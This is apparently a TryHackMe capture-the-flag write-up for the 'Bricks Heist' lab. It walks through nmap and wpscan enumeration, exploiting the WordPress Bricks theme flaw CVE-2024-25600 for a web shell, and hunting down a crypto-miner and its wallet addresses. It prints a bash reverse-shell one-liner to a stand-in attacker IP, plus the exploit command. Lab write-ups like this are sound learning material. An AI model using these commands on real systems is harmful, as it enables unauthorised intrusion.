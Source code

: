 # 📝 Bricks Heist – TryHackMe Writeup

---

## 🔍 Enumeration

### Nmap Scan
Pro tip: scan for all open port then to a detailed scan on open ones  
```bash
nmap -p- --min-rate=2000 -oN allport.nmap $IP
```
```bash
nmap -sC -sV -vv -p$1, $2, $3 -oN detaile.nmap $IP
```
![nmap](screenshots/nmap1.png)  
![nmap](screenshots/nmap2.png)   
Open PORTS: 22, 80, 443  

### PORT 443
Note: add `$MACHINE-IP  bricks.thm` to /etc/hosts
![web](screenshots/web1.png)  
![web](screenshots/web2.png) 
checked a few directories/files like `/robot.txt` `wp-admin` but nothing useful

### WPSCAN
```bash
wpscan --url https://brick.thm --disable-tls-checks
```
![wpscan](screenshots/wp1.png)  
![wpscan](screenshots/wp2.png)  

From the scan we found out that its using `Bricks theme V 1.9.5`. After searchin gfor potential exploits for this on google  
Found Out:[**CVE-2024-25600.py**](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/blob/main/CVE-2024-25600.py)  

---
## 💥Exploitation

### Web Shell
```bash
python3 Downloads/CVE-2024-25600.py --url https://bricks.thm
```
![apacheshell](screenshots/apaches.png)  

Right now this is just a web shell that is the input is going through a php code that is being run on a server.  
Getting a reverse shell from web shell:  
Set up listener,
```bash
nc -nvlp 1234
```
Bash Reverse Shell,
```bash
bash -i >& /dev/tcp/<ATTACKER-IP>/1234 0>&1
```

---
## Flags
1.hidden.txt
```bash
find -name hidden.txt
```
2.Service associated
```bash
ps aux 
```
![service](screenshots/service.png)  
3.Sus Process  
```bash
systemctl status <service name>
```
![process](screenshots/process.png)  
4. Log file  
```bash
cd /lib/NetworkManager
```
![miner](screenshots/miner.png)  
5.Wallet adresss  
Using cyberChef to decode a doubly encoded base 64 hex. We get two bc adresses. Used blockchain to verify them;  
![adress](screenshots/adress1.png)   
![adress](screenshots/adress2.png)   
6.Threat Group   
Researching about the bc wallet address on google + chatGPT












